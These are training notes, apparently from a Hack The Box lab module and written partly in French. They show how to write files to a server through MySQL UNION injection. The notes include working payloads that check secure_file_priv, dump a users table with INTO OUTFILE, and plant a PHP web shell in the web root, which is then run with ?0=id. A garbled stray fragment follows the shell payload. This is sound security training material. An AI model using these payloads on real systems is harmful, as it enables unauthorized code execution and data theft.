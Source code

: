# Writing Files



***

### <mark style="color:red;">Write File Privileges</mark>

* Pour **écrire des fichiers** via MySQL, il faut :
  1. Un utilisateur avec le **privilège FILE**
  2. La variable globale `secure_file_priv` **non activée**
  3. Les **droits d’écriture** sur l’emplacement ciblé du serveur
* Nous avons l’utilisateur avec le **privilège FILE**.
* Il reste à vérifier si MySQL autorise l’écriture en consultant **`secure_file_priv`**.

<mark style="color:green;">**secure\_file\_priv**</mark>

* La variable `secure_file_priv` détermine **où lire/écrire des fichiers** :
  * **Vide** → accès à tout le système de fichiers
  * **Répertoire défini** → accès limité à ce dossier
  * **NULL** → aucun accès en lecture/écriture
* Par défaut :
  * MariaDB → vide (accès complet si utilisateur a FILE)
  * MySQL → `/var/lib/mysql-files`
  * Certaines configs modernes → NULL (aucun accès)
* Pour connaître sa valeur : utiliser une **requête MySQL** sur `secure_file_priv`.

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

* Avec une **injection UNION**, il faut récupérer la valeur via un `SELECT`.
* Les variables MySQL sont dans `INFORMATION_SCHEMA.global_variables` : colonnes `variable_name` et `variable_value`.
* Pour ne récupérer que **`secure_file_priv`**, on utilise une **clause WHERE**.
* La requête finale sélectionne uniquement cette variable.

{% code overflow="wrap" fullWidth="true" %}
```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```
{% endcode %}

So, similar to other `UNION` injection queries, we can get the above query result with the following payload. Remember to add two more columns `1` & `4` as junk data to have a total of 4 columns':

{% code overflow="wrap" fullWidth="true" %}
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
{% endcode %}

<figure><img src="https://academy.hackthebox.com/storage/modules/33/secure_file_priv.jpg" alt=""><figcaption></figcaption></figure>

And the result shows that the `secure_file_priv` value is empty, meaning that we can read/write files to any location.

***

### <mark style="color:red;">SELECT INTO OUTFILE</mark>

```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

If we go to the back-end server and `cat` the file, we see that table's content:

```shell-session
mrroboteLiot@htb[/htb]$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

It is also possible to directly `SELECT` strings into files, allowing us to write arbitrary files to the back-end server.

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

When we `cat` the file, we see that text:

```shell-session
mrroboteLiot@htb[/htb]$ cat /tmp/test.txt 

this is a test
```

```shell-session
mrroboteLiot@htb[/htb]$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

Tip: Advanced file exports utilize the 'FROM\_BASE64("base64\_data")' function in order to be able to write long/advanced files, including binary data.

***

### <mark style="color:red;">Writing Files through SQL Injection</mark>

```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

{% hint style="warning" %}
Note: To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.
{% endhint %}

The `UNION` injection payload would be as follows:

{% code fullWidth="true" %}
```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```
{% endcode %}

<figure><img src="https://academy.hackthebox.com/storage/modules/33/write_proof.png" alt=""><figcaption></figcaption></figure>

We don’t see any errors on the page, which indicates that the query succeeded. Checking for the file `proof.txt` in the webroot, we see that it indeed exists:

<figure><img src="https://academy.hackthebox.com/storage/modules/33/write_proof_text.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Note: We see the string we dumped along with '1', '3' before it, and '4' after it. This is because the entire 'UNION' query result was written to the file. To make the output cleaner, we can use "" instead of numbers.
{% endhint %}

***

### <mark style="color:red;">Writing a Web Shell</mark>

```php
<?php system($_REQUEST[0]); ?>
```

We can reuse our previous `UNION` injection payload, and change the string to the above, and the file name to `shell.php`:

{% code fullWidth="true" %}
```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
{% endcode %}

&#x20;   ', “ “, “ “ into outfile '/var/www/html/shell.php'-- -'>

<figure><img src="https://academy.hackthebox.com/storage/modules/33/write_shell.png" alt=""><figcaption></figcaption></figure>

Once again, we don't see any errors, which means the file write probably worked. This can be verified by browsing to the `/shell.php` file and executing commands via the `0` parameter, with `?0=id` in our URL:

<figure><img src="https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png" alt=""><figcaption></figcaption></figure>

The output of the `id` command confirms that we have code execution and are running as the `www-data` user.
